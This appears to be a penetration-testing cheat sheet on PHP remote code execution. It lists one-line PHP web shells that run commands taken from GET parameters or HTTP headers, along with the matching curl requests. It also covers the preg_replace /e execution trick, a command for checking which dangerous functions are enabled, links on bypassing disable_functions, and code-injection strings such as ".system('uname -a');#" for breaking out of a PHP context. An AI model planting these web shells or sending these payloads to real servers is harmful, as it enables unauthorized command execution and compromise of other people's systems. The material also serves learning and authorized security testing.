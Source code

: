 ## Check for registered php stream

https://dzone.com/articles/the-powerful-resource-of-php-stream-wrappers

---

## Function

- Could be helpful : ```system```, ```shell_exec```

- Know which are enabled : ```php -r 'print_r(get_defined_functions());' | grep -E ' (system|exec|shell_exec|passthru|proc_open|popen|curl_exec|curl_multi_exec|parse_ini_file|show_source)'<?php print_r(get_defined_functions()); ?>```

---

## Execute command :

1.
```
<?php $_SERVER['HTTP_LANG']($_SERVER['HTTP_ACCEPT-LANGUAGE']); ?>

curl -H "Lang: system" -H "Accept-Language: <cmd>" ...
```

2. 
```
<?php system($_SERVER['HTTP_LANG']); ?>
curl -H "Lang: <cmd>"...
```

3.
```
<?php system($_GET['cmd']);?>
http://url/fichier/?cmd=
```

4.
```
<?php system($_REQUEST['cmd']); ?>

file.php&cmd=whoami
```

5. The only limitation is your brain. Try hard !

https://www.acunetix.com/blog/articles/web-shells-101-using-php-introduction-web-shells-part-2/


---

## Preg_replace :

Experimenting with the functionality of the VPNGenerator, it is easy  to spot what it does. A placeholder string in the VPN generator window  is substituted for a custom input via preg_replace() php function. Older implementations of preg_replace() are vulnerable to a remote command execution using /e  specifier if you know how to approach it! I suggest doing your own  research on the function if you are unfamiliar with php. Here are some  links to help you:
  • https://bitquark.co.uk/blog/2013/07/23/the_unexpected_dangers_of_preg_replace
  • http://www.madirish.net/402
  • http://php.net/manual/en/function.preg-replace.php
 
 `preg_replace(/x/e, system("id"), x)`
 
 ---
 
## Bypass disable_functions

  https://0xdf.gitlab.io/2019/08/02/bypassing-php-disable_functions-with-chankro.html
  
  https://0xdf.gitlab.io/2021/01/23/htb-compromised.html
  

---

## Code execution

- Comments : In PHP, you can use `//` to get rid of the code added by the application.

- As SQL injection, you can use the same technique to test and ensure you have a code injection:

	- Using comments and injecting: `/* <random value> */`, `<command>;#`, `".<command>;//.`
	- Injecting a simple concatenation `"."` (`"` used to break the syntax and reform it correctly).
	- Replacing the parameter you provided by a string concatenation: `"."th"."is"."` instead of `this`.
	- add code : `$test=".`

- You can also use time-based detection for this issue by using the PHP function sleep. You will see a time difference between:

	- Calling the function sleep or calling it with a delay of zero: `sleep(0)`.
	- A call to the function with a long delay: `sleep(10)`.

Examples : 

- By adding some code: `".system('uname -a'); $dummy="`
- By using comment: `".system('uname -a');#` or `".system('uname -a');//`
- `'.'`, if it works, try adding some function : `'.phpinfo().'`
- Don't forget to url encode if necessary.

Use the error message to understand how you can exit the context (what should I do to end it ? `; ) } // ' " +`). Examples : 

`?order=id;}//:` we get an error message (Parse error: syntax error, unexpected ';'). We are probably missing one or more brackets.
`?order=id);}//:` we get a warning. That seems about right.
`?order=id));}//:` we get an error message (Parse error: syntax error, unexpected ')' i). We probably have too many closing brackets.


